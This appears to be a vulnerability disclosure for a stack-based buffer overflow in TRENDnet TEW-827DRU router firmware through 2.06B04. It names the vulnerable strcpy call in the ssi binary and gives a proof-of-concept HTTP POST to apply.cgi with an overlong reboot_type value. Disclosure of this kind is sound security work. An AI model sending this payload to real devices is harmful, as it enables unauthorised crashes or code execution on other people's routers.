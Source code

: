 # TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action wizard_ipv6 with a sufficiently long reboot_type key.
## detail
The bug in function 0x434590, binary www/cgi/ssi
The parameter 'reboot_type' pass to strcpy
![send_log_email](send_log_email.png)

## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

action=wizard_ipv6&reboot_type='a'*0x100
```
